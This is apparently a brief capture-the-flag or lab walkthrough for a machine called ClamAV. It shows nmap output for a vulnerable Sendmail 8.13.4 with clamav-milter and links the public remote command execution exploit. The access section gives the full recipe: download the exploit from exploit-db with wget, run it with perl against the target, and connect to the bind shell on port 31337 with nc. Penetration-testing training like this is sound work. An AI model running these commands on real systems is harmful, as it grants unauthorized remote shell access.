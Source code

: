 # ClamAV

### Enumeration

```
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.49.112], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP, 
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info 
```

Sendmail with clamav-milter < 0.91.2 - Remote Command Execution

https://www.exploit-db.com/exploits/4761

### Access

```
$ wget https://www.exploit-db.com/raw/4761 -O black-hole.pl
$ perl black-hole.pl 192.168.112.42
$ nc -v 192.168.112.42 31337
```
